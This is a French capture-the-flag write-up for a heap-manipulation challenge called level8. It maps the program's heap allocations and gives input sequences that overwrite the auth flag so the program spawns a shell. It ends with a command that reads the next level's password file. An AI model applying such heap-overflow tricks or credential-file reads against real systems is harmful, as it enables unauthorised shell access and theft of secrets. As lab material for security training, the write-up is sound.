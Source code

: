 # level8 - Heap Memory Manipulation

## Analyse du Programme

**Structure**
- Boucle principale avec `fgets(buf, 128, stdin)`
- Commandes disponibles: `auth`, `reset`, `service`, `login`
- Vérification critique: `auth[32] != 0` pour `login`

**Comportement Mémoire**
- `auth`: alloue 4 bytes à `0x804a008`
- `service`: utilise `strdup` sur `buf+7`
- Chaque allocation décale de 16 bytes
- Headers malloc entre les blocs

## Exploitation

**Étapes**
1. `auth`: initialise le pointeur auth
2. Premier `serviceAAAA`: écrit à `0x804a018`
3. Second `serviceAAAA`: écrit à `0x804a028`
4. `login`: vérifie `auth` qui pointe maintenant vers nos "AAAA"

**Memory**

```nasm
0x804a008:      0x0000000a(auth)      0x00000000      0x00000000      0x00000011
0x804a018:      0x41414141(AAAA)      0x0000000a      0x00000000      0x00000011
0x804a028:      0x41414141(AAAA)      0x0000000a      0x00000000      0x00020fd1
                        |
                        |
          auth+32 <-----+
```

**Séquence d'Exploitation**
```bash
auth 
serviceAAAA
serviceAAAA
login
```

Cette exploitation fonctionne car:
- Le second bloc "AAAA" est placé à `auth + 32`
- La condition `auth != 0` devient vraie
- Le programme exécute `system("/bin/sh")`

**Solution supplementaire**
```
auth aaaa                   // Les 'a' sont presents a but illustratif
servicebbbbbbbbbbbbbbbb     // 16 * 'b'
login
```

Apercu de la memoire:
```
0x804a008:      0x61616161      0x0000000a      0x00000000      0x00000019
0x804a018:      0x62626262      0x62626262      0x62626262      0x62626262
0x804a028:      0x0000000a      0x00020fd9      0x00000000      0x00000000
```

Sachant que `auth` fait un `malloc` de 4 qui sera aligne a 16 (1ere ligne) et que la prochaine allocation se fera a la suite (2eme ligne), nous en deduisons que 17 octets suffiront, et oui, n'oublions pas le '\n' ! auth[32] = "0x0000000a" soit '\n'.

**Obtention du Flag**
```bash
cat /home/user/level9/.pass
```
